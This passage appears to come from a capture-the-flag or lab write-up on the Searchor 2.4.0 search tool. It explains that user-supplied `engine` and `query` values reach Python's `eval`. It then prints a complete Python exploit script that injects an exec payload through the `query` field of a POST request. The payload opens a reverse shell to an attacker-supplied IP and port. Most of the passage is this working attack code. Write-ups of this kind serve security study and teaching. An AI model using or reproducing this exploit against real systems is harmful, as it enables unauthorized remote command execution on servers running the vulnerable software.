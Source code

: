 Below is the vulnerable code that leads this exploit to work. It's using the `eval` function and follow with `{engine}` and `{query}` as input.

![vulnerable code in github](github-code-vuln.png "vulnerable code in github")

So, I make a simple exploit in python based on this [POC](https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-/tree/main) by using `python reverse shell` as the payload.

```python
#!/usr/bin/env/python3
# Searchor 2.4.0 POC
# Description:
#   https://github.com/ArjunSharda/Searchor/commit/29d5b1f28d29d6a282a5e860d456fab2df24a16b
#   https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-/blob/main/README.md
#   https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-/tree/main
#   https://security.snyk.io/package/pip/searchor/2.4.0

import requests
import sys
#p = {'http':'http://127.0.0.1:8080', 'https':'http://127.0.0.1:8080'}

def send_req(url, ip, port):
    payload = "', exec(\"import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('{}',{}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);\"))#".format(ip, port)
    data = {'engine':'Accuweather','query':f'{payload}'}
#    requests.post(url, data=data, proxies=p)
    requests.post(url, data=data)

if __name__=="__main__":
    try:
        url = sys.argv[1].strip()
        ip = sys.argv[2].strip()
        port = sys.argv[3].strip()
    except IndexError:
        print("[-] Usage: {} <url> <attacker_ip> <attacker_port>".format(sys.argv[0]))
        print('[-] Example: {} "http://example.com/search" "10.10.10.10" "1111"'.format(sys.argv[0]))
        sys.exit(1)

    print("[!] Sending the payload...")
    send_req(url, ip, port)

```

